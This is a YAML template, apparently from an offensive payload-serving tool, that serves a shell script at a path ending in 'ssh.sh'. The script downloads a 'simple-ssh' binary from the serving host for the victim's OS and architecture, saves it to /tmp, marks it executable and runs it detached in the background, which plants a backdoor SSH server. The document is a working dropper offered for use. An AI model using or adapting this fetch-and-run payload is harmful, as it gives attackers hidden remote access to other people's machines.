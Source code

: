 ```yaml
---
title: Simple SSH
description: Simple SSH (requires build of simple ssh server in static dir)
weight: 1
pattern: /ssh.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    DEST_FILE=/tmp/s
    if [ ! -f $DEST_FILE ]; then
      OS=$(uname)
      ARCH=$(uname -m)
      curl {{.Request.Host}}/mdaas/$OS/$ARCH/simple-ssh > $DEST_FILE
      chmod +x $DEST_FILE
    fi
    bash -c "$DEST_FILE & disown" &
    disown
---
```

